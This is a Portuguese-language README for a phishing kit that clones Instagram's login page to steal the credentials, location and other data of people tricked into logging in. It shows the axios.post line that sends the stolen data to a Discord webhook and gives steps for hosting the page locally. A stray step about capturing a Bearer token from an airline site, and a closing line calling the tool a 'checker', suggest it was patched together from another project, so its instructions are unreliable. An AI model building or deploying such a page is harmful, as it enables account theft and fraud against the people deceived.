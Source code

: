# 📷 Tela Fake Instagram

A **Tela Fake do Instagram** nada mais seria **um site identico ao site oficial**, porém usado de formas não éticas para obter credenciais de qualquer pessoa, desde que ela caia na sua engenharia social e faça a tentativa de login pelo site falso. Essa tela fake foi feita em **HTML** para **obter informações sobre a conta** + **localização** e **outros** !

## 📩 Como recebo as informações ?

- **Para receber o login, senha & outros coletado pelo Site Falso, é preciso ter um Servidor dentro do Discord**.
- **Abra o `index.html` e troque o exemplo pela sua `Webhook Válida.` Exemplo**:
  - `const response = await axios.post('https://discord.com/api/webhooks/exemplo/1nsaneqy', data);`
  - **Este código acima poderá ser encontrado na linha ``258``**.

## 🖥 Consigo testar em minha máquina local ?

Claro ! Para testar a **Tela Fake** em seu computador, basta seguir esses processo:

1. Instale o [XAMPP](https://www.apachefriends.org/download.html)

2. Após a instalação, vá até o local aonde o XAMPP foi instalado

3. Dentro da pasta do XAMPP, procure por "htdocs".

4. Apague todo o conteúdo dentro, e cole a `index.html`

5. Abra a `index.html` com o seu Bloco de Notas ou etc. `(Troque a webhook)`

6. Vá até o site da **https://voeazul.com.br/** e capture o `Bearer`

7. Abra o XAMPP, ligue o Apache, e no seu navegador vá até a [localhost](http://localhost/)

8. Pronto! O checker já está configurado para uso <3

## 💻 Quem fortaleceu o código foi:

- 1nsaneqy,
- Equipe Lean7!
